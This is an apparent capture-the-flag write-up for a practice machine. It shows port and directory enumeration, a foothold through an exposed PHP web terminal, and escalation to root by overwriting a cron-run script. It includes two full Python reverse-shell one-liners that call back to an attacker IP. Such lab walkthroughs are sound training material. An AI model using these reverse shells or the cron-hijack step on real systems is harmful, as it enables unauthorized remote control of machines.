










---

### Knowledge Gained 🙉
- su 


---

## Enumeration

First, we start off with a `rustscan `scan, seems that this box only have one open port which is port `80`.

```
rustscan -a 10.10.10.68
```



I then move to the website and nothing much was on the website.



Then, I run `gobuster` to search for sub-directories under this server. The results returns a few interesting results: `/php` , `/dev` , `/uploads`



---

## Foothold

Both `/php` and `/uploads` have nothing inside, so I move on to `/dev`. Under this there is a php file called `phpbash.php`, and it appears to be a terminal. I can access the terminal using the `www-data` user and the user flag is just there for us.



Before I proceed, I upgraded the shell to have more control of the machine. The shell I used is from [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


---

## Priv Esc

After moving around the terminal, I run `sudo -l` to see what privileges we have. Seems like the `www-data` user can run commands as `scriptmanager` user. 

```
sudo -u scriptmanager /bin/bash
```





After poking around, I noticed that there is a folder under the root directory named `scripts` that is owned by the **scriptmanager** user.




Under that folder there is a **script** and a **text** file. Seems like the script is opening and writing to the file. Noticing the creation time of the text file, I know that there must be some **cron** running the script in the background automatically every minute.



So next all we have to do is replace the script with a reverse shell and we are root!

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.13\",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```



Thats all for this box, thanks for reading!


